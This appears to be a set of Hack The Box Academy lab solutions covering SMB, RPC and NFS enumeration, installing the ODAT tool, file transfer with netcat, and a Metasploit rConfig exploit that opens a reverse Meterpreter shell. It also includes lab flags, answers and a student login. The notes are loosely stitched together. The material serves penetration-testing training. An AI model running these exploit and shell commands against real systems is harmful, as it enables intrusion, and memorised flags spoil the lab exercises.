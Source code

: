 ```shell
sudo nmap -p445 -sV -sC STMIP
```

```shell
smbclient -N -L STMIP
```

```shell
smbclient //STMIP/sambashare -N
get contents\flag.txt
!cat contents\\flag.txt
```

HTB{o873nz4xdo873n4zo873zn4fksuhldsf}

```shell
rpcclient -U "" STMIP
```

```shell
querydominfo
```

```shell-session
rpcclient $> netsharegetinfo sambashare
```
InFreight SMB v3.1

```shell
netsharegetinfo sambashare
```
C:\home\sambauser\

```shell-session
└──╼ [★]$ showmount -e 10.129.131.113
```

```shell
mkdir NFS
sudo mount -t nfs -v STMIP:/var/nfs ./NFS/
cat ./NFS/flag.txt
```

HTB{hjglmvtkjhlkfuhgi734zthrie7rjmdze}

```shell
mkdir NFSShare
sudo mount -t nfs -v STMIP:/mnt/nfsshare ./NFSShare/
cat ./NFSShare/flag.txt
```

HTB{8o7435zhtuih7fztdrzuhdhkfjcn7ghi4357ndcthzuc7rtfghu34}

```shell
sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

```shell-session
import urllib.request as request
```

```shell
request.urlretrieve("http://STMIP/flag.txt", "flag.txt");
```
Students first need to SSH into the spawned target machine using the credentials `htb-student:HTB_@cademy_stdnt!`:

```shell
ssh htb-student@STMIP
```

```shell
wget https://academy.hackthebox.com/storage/modules/24/upload_nix.zip
unzip upload_nix.zip
```

```shell-session
scp upload_nix.txt htb-student@10.129.181.183:~/
```

```shell
nc -lp STMPO > upload_nix.txt
```

```shell
nc -w 3 STMIP STMPO < upload_nix.txt
```

```shell-session
hasher upload_nix.txt
```

This version is vulnerable to RCE, as shown in the "Discovering a Vulnerability in rConfig" subsection. Thus, students will need to use Metasploit to exploit this vulnerability (this exploit module requires a username and a password, however, because the aim of this module is to teach about Shells and Payloads mainly, students can leave out the default settings for the options USERNAME and PASSWORD, i.e., `admin:admin`:

Code: shell

```shell
msfconsole -q
set RHOSTS STMIP
set LHOST PWNIP
set SRVHOST PWNIP
exploit
```

  Infiltrating Linux

```shell-session
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set RHOSTS 10.129.201.101 
setRHOSTS => 10.129.201.101

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LHOST 10.10.14.253
LHOST => 10.10.14.253

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set SRVHOST 10.10.14.253
SRVHOST => 10.10.14.253

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.253:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'busfcj.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted busfcj.php
[*] Meterpreter session 1 opened 
(10.10.14.253:4444 -> 10.129.201.101:37732)
at 2022-03-20 23:14:44 +0000

meterpreter >
```

Once a Metrepreter session has been established, students need to navigate to the "/devicedetails" directory to find out the hostname of the router, after reading the contents of the file "hostnameinfo.txt":

Code: shell

```shell
cd /devicedetails
cat hostnameinfo.txt
```

  Infiltrating Linux

```shell-session
meterpreter > cd /devicedetails
meterpreter > cat hostnameinfo.txt

Note: 

All yaml (.yml) files should be named after the hostname of the router or switch they will configure. We discussed this in our meeting back in January. Ask Bob about it.
```

Answer: {hidden}

HTB{R3m0t3DeskIsw4yT00easy}
